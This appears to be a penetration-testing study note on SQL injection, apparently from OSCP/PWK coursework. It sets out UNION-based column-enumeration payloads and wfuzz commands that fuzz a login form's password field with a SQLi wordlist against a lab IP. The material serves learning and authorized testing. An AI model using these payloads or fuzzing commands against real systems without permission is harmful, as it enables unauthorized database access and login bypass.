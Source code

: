 ```yaml
---
description: 'PWK: 300-348'
---
```


# SQLi

## Introduction

Structured Query Language Injection (SQLi) is an attack on a web application database server that allows malicious queries to be executed.

* This vulnerability occurs when a web application communicates with a back end DB using user input that has not been properly validated

## How a DB Works

* The SQL statement used to <mark style="color:green;">retrieve data</mark> is "<mark style="color:yellow;">SELECT</mark>"
* The SQL clause that can be used to <mark style="color:green;">retrieve data from multiple tables</mark> is "<mark style="color:yellow;">UNION</mark>"
* The SQL statement that is used to add data is "INSERT"

Conclusion:

Retrieving data from a single table in a database -- SELECT&#x20;

Retrieving data from multiple tables in a databse -- UNION

## Links

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}
PayloadsAllTheThings GitHub Repo
{% endembed %}

{% embed url="https://www.securityidiots.com/Web-Pentest/SQL-Injection/" %}
SQLi Logic
{% endembed %}

## Manual MSSQL Injection

Do you see a seemingly vulnerable input field that you believe queries the database?

<mark style="color:yellow;">Make a request to it and capture it in burp // send to repeater tab</mark>

```
q=500' union select 1 -- 
q=500' union select 1,2 -- 
q=500' union select 1,2,3 -- 
q=500' union select 1,2,3,4 -- 
q=500' union select 1,2,3,4,5 -- 
q=500' union select 1,2,3,4,5,6,7 -- 
q=500' union select 1,2,3,4,5,6,7,8 -- 
```

* Be sure to check the response tab after you send every request as you do not know when it will return data!

## Semi-Automatic SQLi

{% embed url="https://www.youtube.com/watch?v=c2OFrDVb3EM&t=2558s" %}
Go to 45 mins
{% endembed %}

1. Set URL variable ($URL) to your target you are attacking

```
export URL=http://192.168.1.181/index.php
echo $URL
```

&#x20; 2\. Find the backend processing for the handling of your input in the web application

* View source code
* Search for form elements they look like this: <mark style="color:yellow;">\<form</mark>
* Locate the script or action that it takes within that line of code it should be executing a php file
  * i.e. if it is <mark style="color:yellow;">checklogin.php</mark>
  * Make it your URL variable

```
export URL="http://192.168.1.181:80/checklogin.php"
```

&#x20;  3\. Locate quick-SQLi.txt, it should be something like: usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt

&#x20;  4\. Load up wfuzz:

* Check <mark style="color:yellow;">\<input name</mark>, in this case, it is <mark style="color:yellow;">myusername</mark>

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt -d "myusername=admin&mypassword=FUZZ&Submit=Login" --hc 404 "$URL"
```

* You may get get a lot back
* Look at the chars
* Go back to the web app and manually authenticate using that payload and username
* Go through them until you get an error
* Determine what a valid and invalid error is depending on char size
* Be sure to block out the invalid errors in wfuzz as seen below
* For example, these chars are 109 and 444

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt -d "myusername=admin&mypassword=FUZZ&Submit=Login" --hc 404 --hh 109,444 "$URL"
```

* Anything you get now should be attempted manually once more in the browser
